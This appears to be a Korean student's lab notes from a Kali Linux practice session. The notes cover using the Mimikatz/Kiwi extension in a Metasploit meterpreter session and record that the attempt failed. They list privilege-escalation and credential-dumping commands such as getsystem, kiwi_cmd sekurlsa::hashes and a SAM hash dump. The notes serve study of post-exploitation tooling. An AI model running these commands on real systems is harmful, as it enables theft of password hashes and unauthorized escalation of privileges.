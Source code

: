 # Kiwi = Mimikatz 실습 실패에 대한 정리
공격자들이 주로 사용하는 몇가지 유용한 태스크들을 몇가지 묶어놓은 툴. Metasploit에는 Mimikatz가 meterpreter script로 포함되어 있다.  
마찬가지로 meterpreter shell을 얻은 후에 진행한다.  
Mimikatz가 제대로 동작하려면 세션은 항상 시스템 레벨 권한에서 에서 실행되고 있어야 한다!   

### 기본 준비
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/Kiwi/Source/%EA%B8%B0%EB%B3%B8%EC%A4%80%EB%B9%84.png)  
위의 사진과 같이 shell을 얻은다음 진행을 시작한다.  
이후 **getuid**  
**getsystem**  
System user가 아니면 입력한다.
**load mimikatz** = **load kiwi**  
**help kiwi**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/Kiwi/Source/mimikatz%20kiwi.png)  
Mimikatz가 실습 시점에는 kiwi로 변경되어 명령어 역시 실습시점의 명령어와 달라졌다.  

**mimikatz_command -f abc::** = **kiwi_cmd ..**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/Kiwi/Source/kiwi_cmd%20-f%20%20%EC%97%90%EB%9F%AC.png)  
현재 mimikatz_command가 아닌 help를 통해 확인한 비슷한 작업을 하는 kiwi_cmd를 통해 실습을 진행하려고 함.  

**kiwi_cmd -f ..**  
**kiwi_cmd sandump::hashs**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/Kiwi/Source/kiwi_cmd%20%EC%84%A4%EC%A0%95(%EC%95%84%EB%A7%88).png)

**kiwi_cmd sekurlsa:: ..**  
**kiwi_cmd sekurlsa::hashes**  
이 모듈은 있지만 이역시 내부의 실행하는 것들이 전부 달라졌다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/Kiwi/Source/kiwi_cmd%20%EC%84%A4%EC%A0%95%20sekurlsa.png)  

이후 windowXp의 내장게임인 mine을 시도
**kiwi_cmd winmine::**  
**kiwi_cmd winmine::info**  
이역시 위와 마찬가지인 상황이 나와 진행이 안된다.  
따라서 내부 모듈의 변경점등은 추후 인터넷을 통해 찾아 봐야할 것으로 생각된다.  
